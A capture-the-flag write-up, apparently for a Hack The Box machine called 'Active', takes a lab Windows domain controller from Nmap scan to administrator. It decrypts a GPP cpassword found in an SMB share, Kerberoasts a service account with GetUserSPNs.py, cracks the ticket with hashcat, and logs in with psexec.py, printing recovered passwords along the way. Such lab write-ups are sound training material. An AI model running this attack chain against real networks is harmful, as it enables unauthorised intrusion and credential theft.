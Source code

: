 # Active  

## Nmap  

All ports  

```
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-04-21 07:10:55Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  tcpwrapped    syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49169/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49174/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```  

UDP ports  

```
53/udp    open          domain          udp-response ttl 127
123/udp   open          ntp             udp-response ttl 127
```  

## SMB  

Found credentials in 'Replication' share.  

```
active.htb\SVC_TGS
```  

`edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`  


## Password decrypting  

Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword.  

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

## Service user names  

Listing service usernames and getting a ticket.  

`GetUserSPNs.py -request -dc-ip 10.129.195.167 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out`  

Finding hash type of ticket.  

`hashcat --example-hashes | grep -B 2 '$krb5tgs$23$*'`  

Getting hash.  

`hashcat -a 0 -m 13100  GetUserSPNs.out /usr/share/wordlists/rockyou.txt`  

Password.  

`Ticketmaster1968`  

## Root  

`psexec.py active.htb/administrator@10.129.195.167`
